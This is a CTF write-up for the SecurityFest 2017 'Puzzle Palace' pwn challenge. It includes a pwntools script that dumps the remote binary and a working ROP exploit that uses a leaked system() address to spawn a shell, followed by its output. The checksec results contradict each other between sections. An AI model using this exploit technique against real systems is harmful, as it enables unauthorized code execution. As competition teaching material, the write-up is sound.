 ```yaml
---
layout: post
title: "SecurityFest 2016 - Puzzle palace"
date:   2017-06-01 20:00
categories: CTF
tags: [SecurityFest2017]
categories: [pwn]
author: jbz
---
```


Pwn - 100 Points

_Adventure time! Find the magic bytes, kill the wizard, get all the flags!_

This was a very fun challenge, too bad it was only worth 100 points :). The organizer provided the libc and a README containing this: `Yep you only get the libc, connect to the service and go for an adventure to get the rest.`

You can find the provided archive [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/puzzle_palace.tar.gz). The remote server was `pwn.ctf.rocks` port `6666`.

Great! Let's the fun start.

First of all we have to get the binary from the remote server. When we connect to it we find ourselves in front of this menu:
```
The Puzzle Palace
===============
1) Go on an adventure to find the magic bytes!
2) Fight the evil wizard with the magic bytes!
3) Return home with shame

#>
```
If we type `1` we get:
```
You enter the Puzzle Palace!
A message glows brightly on the wall of this room [7F454C4602010100000000000000000003003E0001000000100A000000000000400000000000000038210000000000000000000040003800090040001B001A00]
Where to now adventurer?
1) Up
2) Down

#>
```
We see `454C46`, which is the hex of `ELF`. That's probably the start of the binary. To get more of it we just have to type `2` in the prompt and it will continue playing bytes until EOF. I used this script to dump the whole thing:
```python
from pwn import *
s = remote("pwn.ctf.rocks", 6666)
s.sendlineafter("#>", "1")
with open("bin", "w") as f:
    while True:
        data = s.recvuntil("#>")
        data = data.split("[")[1].split("]")[0]
        print data
        data = data.strip()
        data = [data[i:i+2] for i in xrange(0,  len(data), 2)]
        for x in data:
            f.write(chr(int(x, 16)))
        s.sendline("2")
```
Yes, there is no check for EOF but the script crashes when it reached EOF so it's good enough :).

Let's see what the dumped binary is:
```
$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7c3b19746df3ef56476d19ce0f657e14c0eb19cb, stripped
$ checksec challenge 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Nasty... well let's see how it works.

We know `1` of the initial menu, which is the leak of the binary, nothing much else there. `3` just quits the program. There's an hidden menu item if you press `Z`:
```c
if ( menu_entry == 'Z' )
  printf("Woah, nice! You found the hidden 'system' libc address:%p!\n", &system);
```
It leaks the address of `system`! Handy! Let's remember it for later.

Let's now focus on `2`.
```
Hope you got those magic bytes ready!
The wizard points at you and starts yelling 'lightning bolt!'
This would be a good time use those magic bytes: 
```
This is what we see when we press `2` in the main menu prompt. Let's see what it does after that:
```c
read_s2(256);
if ( strncmp("1337p0werOverWhelMing1337", s2, 25uLL) )
{
  puts("You utter the magic bytes but they are wrong and the evil wizard burns you to a crisp, GG!");
  exit(0);
}
printf("Nice! Pwn the wizard with some ROP and ROLL now!: ");
return read(0, &buf, 0x1337uLL);
```
So:
- `read_s2` just zeroes `s2` and writes 256 bytes read from stdin to it
- If `s2` is not `1337p0werOverWhelMing1337` the program exits
- It reads 0x1337 bytes of data (that is 4919 bytes) and saves it in `buf`, which is just a pointer on the stack. Ok, we can write stuff... a lot of it :)

If you remember, the binary has `NX` enabled, so no shellcode on the stack. It doesn't have a stack canary, which makes things easier in this case. So we just have to control RIP and create a ROP chain to execute our shell.

This is the final exploit:
```python
from pwn import *

s = remote("pwn.ctf.rocks", 6666)
#s = process("./bin")
libc = ELF("libc.so.6_eea5f41864be6e7b95da2f33f3dec47f")

s.sendlineafter("#>", "Z")
data = s.recvuntil("#>")

system_address = int(data.split(":")[1].split("!")[0], 16)
sh_address = system_address - 210208
libc_base = system_address - 283536
pop_rdi = libc_base + 0x21102

ropchain = ""
ropchain = "A" * 8 * 5
ropchain += p64(pop_rdi)
ropchain += p64(sh_address)
ropchain += p64(system_address)
log.info("system: {:x}".format(system_address))
log.info("libc: {:x}".format(libc_base))
log.info("sh: {:x}".format(sh_address))

s.sendline("2")
s.sendlineafter(":", "1337p0werOverWhelMing1337")
s.sendlineafter(":", ropchain)
s.interactive()
```
We create a simple ROP chain that `pop`s the address that points to `sh` in `rdi` and then we call `system`. Pretty straightforward.

- We first leak `system`'s address, and since the organizer provided libc we can easily calculate the address of `sh` and the location of a `pop rdi` gadget.
- We then prepare the payload that contains:
  - 40 bytes of padding to get to RIP (found via gdb)
  - the address of `pop rdi` that will overwrite RIP
  - the address of `sh` that will be put in `rdi`
  - the address of `system` that will run what's in `rdi`

Of course, we have to pass the string `1337p0werOverWhelMing1337` first. And we get our shell:
```bash
$ python exploit.py 
[+] Opening connection to pwn.ctf.rocks on port 6666: Done
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] system: 7febe305e390
[*] libc: 7febe3019000
[*] sh: 7febe302ae70
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag
SCTF{1_4lwa4y5_h4t3d_w1zard5}
```

Happy hacking!



